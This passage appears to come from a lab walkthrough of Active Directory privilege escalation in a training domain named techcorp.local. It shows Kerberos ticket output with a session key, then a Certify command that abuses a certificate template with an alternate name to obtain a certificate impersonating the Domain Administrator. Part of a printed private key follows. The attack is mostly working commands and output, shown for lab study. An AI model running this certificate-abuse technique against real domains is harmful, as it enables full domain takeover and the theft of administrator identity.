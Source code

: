 ```
  EndTime                  :  4/29/2025 6:08:21 PM
  RenewTill                :  5/6/2025 8:08:21 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  7jDuEshK4Yl01h6BIcaNaw==
  ASREP (key)              :  83B38B91256F03319E963E3823D3C776
```

```
C:\Windows\system32> klist

[SNIP]

Cached Tickets: (1)

#0>     Client: pawadmin @ US.TECHCORP.LOCAL
        Server: krbtgt/us.techcorp.local @ US.TECHCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/29/2025 8:08:21 (local)
        End Time:   4/29/2025 18:08:21 (local)
        Renew Time: 5/6/2025 8:08:21 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Now, from the above session that has the privileges of `pawadmin`, request a certificate for the Domain Administrator `us\Administrator`.

⚠️ Note that Certify will still show the context as `studentuser51` but you can ignore that.

```
C:\Windows\system32> C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator

[SNIP]

[*] Action: Request a Certificates

[SNIP]

[*] Current user context    : US\studentuser51
[*] No subject name specified, using current context as subject.
[*] Template                : ForAdminsofPrivilegedAccessWorkstations
[*] Subject                 : CN=studentuser51, CN=Users, DC=us, DC=techcorp, DC=local
[*] AltName                 : Administrator 🎭

[SNIP]

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA75jYky7x2+EjedaAfGljRAnf0BBr4y9PcyDTJDcHokmJYv6I
eXryzHTOypqD5Tc3847q4zhUHrhKJKZdNnhEezVYJu/0xysfFr/eUV+BvAHCx3yU
7bSA25T411eLeU+vYZXWwsqEc7hM/XjcPBhIfLXtxnO/wcgLxBAYvC+UOACBgqs/
0YfrJkDrKwfnBKMZQ9Ct2bzK0gJT9Uefum90LVRbOmXqrVvMnRcM3d6JdujXexYH
VVCbi4b/JYO0IH8SPz0EmPlz7vV5M0dGgjv6O56zA1F9DjYnOv+EerOLYLCyyltF
EAf6AimfJKtxaiKE2hWzIxMF059Lk253I74TIQIDAQABAoIBACvhv5C9YViXFGtF
KQUgPCkC8fXmfAwA5zk7ws/4MDK96yaxXYd6SCvAHPuobw21Hk9CVqzE7UsvD41E
1v+Z6VjzfTCsdBViRXBiNbKLnnQzklv86j3a+Fq/HxA5nXbbbFCgI9RLSRT0pU0r
LJLpE6WboG/fVTiFjfobxJv6zteujUqveba5zvHecOIER/ThXYXvS32QSjQ6VlzY
Uq1MZaVuwzqv2ozP3hI1+E7uIz1CMb7lEyclVLZJGo5r3HQESkeTJvsT31VziQoh
FOvPj4LRgN0CMP4d/Vo6GTU2L1OoggfCnV4dR0OqJEmdC3oHkoiMEgbP5RQ+4IEb
jVbLfT0CgYEA8bOzbxLH2QpAqkqx8mv7kXp6kWm2Gi8cimRVsZoq47FklssdQEQQ
```